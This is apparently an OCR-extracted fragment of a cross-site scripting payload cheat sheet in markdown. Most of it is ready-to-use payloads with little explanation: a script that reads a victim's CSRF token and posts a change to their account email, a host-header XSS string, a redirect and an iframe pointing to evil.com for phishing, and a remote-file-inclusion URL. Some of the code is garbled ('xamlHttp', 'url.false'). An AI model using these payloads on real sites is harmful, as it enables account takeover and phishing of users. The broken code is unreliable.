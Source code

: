 		// Auto submit form
		document.forms["myfor"].submit();
		function get(url){
		var xmlHttp = new XMLHttpRequest();
		xamlHttp.open("GET", url.false);
		xmlHttp.send(null)
		return xmlHttp.responseText;
		}
		```
		
	
	```python
	<script>
	var req = new XMLHttpRequest();
	req.onload = handleResponse;
	req.open('get','/my-account',true);
	req.send();
	function handleResponse() {
		var token = this.responseText.match(/name="csrf" value="(\\w+)"/)[1];
		var changeReq = new XMLHttpRequest();
		changeReq.open('post', '/my-account/change-email', true);
		changeReq.send('csrf='+token+'&email=test@test.com')
	};
	</script>
	```
	
- XSS Via Header Injection
	
	```jsx
	## host header injection through xss
	hostheader: bing.com">script>alert(document.domain)</script><"
	```
	
- XSS to Open Redirect
	
	```jsx
	## URL redirection through xss
	document.location.href="<http://evil.com>"
	```
	
- Phishing Via Iframe
	
	```jsx
	## phishing through xss - iframe injection
	<iframe src="<http://evil.com>" height="100" width="100"></iframe>
	```
	
- **Remote File Inclusion (RFI) to XSS**
	
	```jsx
	php?=http://brutelogic.com.br/poc.svg
	```
	